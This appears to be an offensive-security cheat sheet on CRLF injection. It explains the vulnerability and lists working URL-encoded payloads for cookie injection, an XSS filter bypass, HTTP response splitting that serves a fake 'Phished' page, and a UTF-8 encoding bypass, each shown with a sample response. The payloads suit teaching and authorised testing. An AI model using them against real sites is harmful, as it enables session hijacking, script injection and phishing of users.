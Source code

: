 ```yaml
---
description: 'CWE-93: Improper Neutralization of CRLF Sequences (''CRLF Injection'')'
---
```


# CRLF

## #**What is CRLF injection?**

_CRLF injection_ is a vulnerability that lets a malicious hacker inject carriage return (CR) and linefeed (LF) characters to change the way a web application works or to confuse its administrator. There are two main malicious uses for CRLF injections: _log poisoning_ (also called _log injection, log splitting,_ or _log forging)_ and _HTTP response splitting_.

## Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

### Summary

* CRLF - Add a cookie
* CRLF - Add a cookie - XSS Bypass
* CRLF - Write HTML
* CRLF - Filter Bypass
* Labs
* References

### CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

### CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

### CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

### CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)

### Labs

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)

### References

* https://www.owasp.org/index.php/CRLF\_Injection
* https://vulners.com/hackerone/H1:192749

## #**What is log poisoning?**

In a log poisoning attack based on CRLF injection, a malicious hacker injects CRLF characters into web server log files to confuse both automatic log analysis systems and system administrators browsing the logs manually.

## CRLF\_Injection Example

* [ ] `http://www.example.com/example.php?id=` – starting a valid request to a page with a CRLF injection vulnerability.
* [ ] `%0d%0aContent-Length:%200` – a fake HTTP response header of `Content-Length: 0`. This causes the web browser to treat this response as terminated and start parsing the next response.
* [ ] `%0d%0a%0d%0aHTTP/1.1%20200%20OK` – the injected new response begins here with a double CRLF sequence followed by `HTTP/1.1 200 OK`.
* [ ] `%0d%0aContent-Type:%20text/html` – another fake HTTP response header: `Content-Type: text/html`. This is required for the browser to treat this data as HTML content.
* [ ] `%0d%0aContent-Length:%2025` – yet another fake HTTP response header: `Content-Length: 25`. This instructs the browser to parse only the next 25 bytes and discard any remaining data as junk, causing it to ignore the legitimate HTTP content sent by the web server.
* [ ] `%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E` – a double CRLF sequence signals that the headers are over and the response body starts. The injected page content is `<script>alert(1)</script>`, which causes the user’s browser to display an alert instead of the actual _example.php_ page.

### Reference

* [https://salmonsec.com/cheatsheets/exploitation/crlf\_injection](https://salmonsec.com/cheatsheets/exploitation/crlf\_injection)&#x20;
